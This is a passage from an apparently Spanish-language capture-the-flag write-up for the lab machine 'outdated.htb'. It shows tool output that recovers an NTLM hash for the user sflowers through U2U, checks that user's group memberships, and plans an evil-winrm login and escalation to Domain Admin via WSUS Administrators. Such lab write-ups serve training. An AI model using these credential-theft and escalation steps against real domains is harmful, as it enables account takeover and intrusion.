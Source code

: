 ```null
  KeyType                  :  rc4_hmac
  Base64(key)              :  8y9LZ40qSnVbhDfW7SsIdA==
  ASREP (key)              :  937EF05AA16C6AA396BFCE4E45907F84

[*] Getting credentials using U2U

  CredentialInfo         :
    Version              : 0
    EncryptionType       : rc4_hmac
    CredentialData       :
      CredentialCount    : 1
       NTLM              : 1FCDB1F6015DCB318CC77BB2BDA14DB5
```

Valido si el Usuario SFlowers pertenece al grupo Remote Management Users para conectarme con evil-winrm

```null
PS C:\Temp> net user sflowers /domain
The request will be processed at a domain controller for domain outdated.htb.

User name                    sflowers
Full Name                    Susan Flowers       
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            6/20/2022 10:04:09 AM
Password expires             Never
Password changeable          6/21/2022 10:04:09 AM
Password required            Yes
User may change password     No

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   1/17/2023 4:09:10 PM 

Logon hours allowed          All

Local Group Memberships      *Remote Management Use*WSUS Administrators  
Global Group memberships     *Domain Users
The command completed successfully.
```

Efectivamente, pertenece y además tiene asignado otro grupo más inusual que me va a permitir escalar privilegios a Domain Admin

Me conecto como ese usuario a la máquina víctima
